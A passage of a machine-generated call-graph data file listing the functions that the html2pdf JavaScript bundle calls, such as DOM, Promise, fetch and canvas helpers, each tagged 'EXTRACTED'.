"source": "static/js/html2pdf.bundle.min.js", "target": "resolvePseudoContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "counter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_slicedToArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "formatCounterValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "formatCounterValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getQuote"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getQuote"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseContent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addOtherToken"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addOtherToken"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addOtherToken"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getQuote"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "formatCounterValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_classCallCheck"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_createClass"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "all"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replaceChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineFonts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "all"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createStyleSheetFontsFromText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getSheetFonts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "all"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fetch"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "blob"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readAsDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElementClone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "generateIframeKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getIframeDocumentElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "child"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replaceChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElementClone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createPseudoHideStyles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ignoreElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineAllImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineAllImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineAllImages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cloneCanvasContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getSheetFonts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getPropertyValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createStyleSheetFontsFromText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createHTMLDocument"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getSheetFonts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "restoreOwnerScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "scrollTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cloneCanvasContents"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "putImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlinePseudoElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "url"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createPseudoHideStyles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createStyles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createStyles"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "initNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_slicedToArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "generateIframeKey"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getIframeDocumentElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "atob"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "decodeURIComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createIframeContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "iframeLoader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createIframeContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "iframeLoader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "clearInterval"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cloneWindow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createIframeContainer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "iframeLoader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "scrollTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "resolve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "onclone"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "restoreOwnerScroll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replaceChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "serializeDoctype"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "next"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sliceIterator"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isTransparent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isTransparent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "inlineFonts"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ready"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_slicedToArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ready"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "all"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "render"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createCommonjsModule"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_interopRequireDefault"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "html2canvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "default"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_extends"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unwrapExports"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "objType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "_typeof"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 